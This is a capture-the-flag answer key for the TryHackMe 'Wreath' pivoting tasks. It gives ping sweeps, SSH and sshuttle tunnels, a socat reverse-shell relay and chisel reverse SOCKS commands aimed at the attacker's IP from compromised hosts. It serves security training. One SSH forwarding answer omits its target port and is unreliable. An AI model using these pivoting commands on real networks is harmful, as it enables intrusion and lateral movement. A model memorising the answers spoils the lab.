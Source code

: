 # TryHackMe [Wreath](https://www.tryhackme.com/room/wreath) Task 8-15
### References
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 8: Pivoting - High-level Overview [YouTube Video]. In YouTube. https://youtu.be/xv9bCJLv-DU
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 9: Pivoting - Enumeration [YouTube Video]. In YouTube. https://youtu.be/lmMqlt5R38Y
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 10: `proxychains` and FoxyProxy [YouTube Video]. In YouTube. https://youtu.be/vqLbUWpp1Hs
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 11: Pivoting - SSH Tunneling and Port Forwarding [YouTube Video]. In YouTube. https://youtu.be/CiW2zPPwfiQ
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 12: Pivoting - `plink.exe` [YouTube Video]. In YouTube. https://youtu.be/MSxRNTU4bUQ
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 13: Pivoting - `socat` [YouTube Video]. In YouTube. https://youtu.be/ydmlsRCQiIE
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 14: Pivoting - `chisel` [YouTube Video]. In YouTube. https://youtu.be/6lG2JnmxI_g
* DarkSec. (2021). TryHackMe Wreath Official Walkthrough Task 15: Pivoting - sshuttle [YouTube Video]. In YouTube. https://youtu.be/1hkXgz-qttY
## Task 8: High-level Overview
### Which type of pivoting creates a channel through which information can be sent hidden inside another protocol?
**Answer**: `Tunnelling`
### Which Metasploit Framework Meterpreter command can be used to create a port forward?
**Answer**: `portfwd`
## Task 9: Enumeration
### What is the absolute path to the file containing DNS entries on Linux?
**Answer**: `/etc/resolv.conf`
### What is the absolute path to the hosts file on Windows?
**Answer**: `C:\Windows\System32\drivers\etc\hosts`
### How could you see which IP addresses are active and allow ICMP `echo` requests on the `172.16.0.x/24` network using `bash`?
**Answer**: `for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done`
## Task 10: `proxychains` & FoxyProxy
## What line would you put in your `proxychains` config file to redirect through a socks4 proxy on `127.0.0.1:4242`?
**Answer**: `socks4 127.0.0.1:4242`
### What command would you use to `telnet` through a proxy to `172.16.0.100:23`?
**Answer**: `proxychains telnet 172.16.0.100:23`
### Which tool is more apt for proxying to a webapp: `proxychains` (PC) or FoxyProxy (FP)?
**Answer**: `FP`
## Task 11: SSH Tunnelling/Port Forwarding
### If you're connecting to an SSH server from your attacking machine to create a port forward, would this be a local (L) port forward or a remote (R) port forward?
**Answer**: `L`
### Which switch combination can be used to background an SSH port forward or tunnel?
**Answer**: `-fN`
### It's a good idea to enter our own password on the remote machine to set up a reverse proxy (Aye or Nay)?
**Answer**: `Nay`
### What command would you use to create a pair of throwaway SSH keys for a reverse connection?
**Answer**: `ssh-keygen`
### If you wanted to set up a reverse port forward from port 22 of a remote machine (`172.16.0.100`) to port 2222 of your local machine (`172.16.0.200`), using a key file called `id_rsa` and backgrounding the shell, what command would you use?
**Answer**: `ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN`
### What command would you use to set up a forward proxy on port 8000 to `user@target.thm`, backgrounding the shell?
**Answer**: `ssh -D 8000 user@target.thm -fN`
### If you had SSH access to a server (`172.16.0.50`) with a webserver running internally on port 80 (only accessible to the server itself on `127.0.0.1:80`), how would you forward it to port 8000 on your attacking machine?
**Answer**: `ssh -L 8000:127.0.0.1 user@172.16.0.50 -fN`
## Task 12: `plink.exe`
### What tool can be used to convert OpenSSH keys into PuTTY style keys?
**Answer**: `puttygen`
## Task 13: `socat`
### Which `socat` option allows you to reuse the same listening port for more than one connection?
**Answer**: `reuseaddr`
### If your Attacking IP is `172.16.0.200`, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of `socat` in the current directory?
**Answer**: `./socat tcp-l:8000 172.16.0.200:443`
### What command would you use to forward TCP port 2222 on a compromised server, to` 172.16.0.100:22`, using a static copy of `socat` in the current directory, and backgrounding the process (easy method)?
**Answer**: `./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &`
## Task 14: `chisel`
### What command would you use to start a chisel server for a reverse connection on your attacking machine?
**Answer**: `./chisel server 4242 --reverse`
### What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is `172.16.0.200` and backgrounding the process?
**Answer**: `./chisel client 172.16.0.200:4242 R:socks &`
### How would you forward `172.16.0.100:3306` to your own port 33060 using a chisel remote port forward, assuming your own IP is `172.16.0.200` and the listening port is 1337?
**Answer**: `./chisel client 172.16.0.200:1337 R:3306:172.16.0.100:3306 &`
### If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local port forward, opening port 8000 locally and linking to `172.16.0.10:80`?
**Answer**: `./chisel client 172.16.0.5:4444 8000:172.16.0.10:80`
## `sshuttle`
### How would you use sshuttle to connect to `172.16.20.7`, with a username of `"pwned"` and a subnet of `172.16.0.0/16`?
**Answer**: `sshuttle -r pwned@172.16.20.7 172.16.0.0/16`
### What switch (and argument) would you use to tell sshuttle to use a key file called `"priv_key"` located in the current directory?
**Answer**: `--ssh-cmd "ssh -i priv_key"`
### You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addresses, but you are getting a Broken Pipe error. What switch (and argument) could you use to fix this error?
**Answer**: `-x 172.16.0.100`
